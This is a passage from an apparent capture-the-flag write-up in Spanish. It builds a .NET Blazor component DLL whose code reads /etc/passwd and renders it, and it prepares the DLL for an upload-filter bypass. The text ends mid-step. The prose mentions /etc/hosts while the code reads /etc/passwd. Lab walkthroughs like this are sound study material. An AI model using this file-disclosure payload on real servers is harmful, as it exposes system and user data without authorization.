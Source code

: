 Voy a instalar el SDK de .NET en mi Parrot siguiendo esta guía de Microsoft
https://learn.microsoft.com/en-us/dotnet/core/install/linux-scripted-manual#scripted-install

Creamos la clase
```shell
dotnet new classlib -n wawo
```

Agregamos las librerías de ASP.NET
```shell
dotnet add package Microsoft.AspNetCore.Components --version 6.0.0
```

![Write-up Image](images/Screenshot_31.png)

Modificamos el archivo `Wawo.cs` para seguir la estructura del `Logs.dll` y cargar por ejemplo el `/etc/hosts` y mostrarlo por pantalla
```C#
using Microsoft.AspNetCore.Components;
using Microsoft.AspNetCore.Components.Rendering;
using System.IO;
namespace wawo
{
    public class Component : ComponentBase
    {
        protected override void BuildRenderTree(RenderTreeBuilder builder)
        {
            base.BuildRenderTree(builder);
            builder.AddContent(0, File.ReadAllText("/etc/passwd"));
        }
    }
}
```

Compilamos...
```shell
dotnet build -c Release
```

Y si hacemos el proceso de subida (renombrar, interceptar y renombrar)...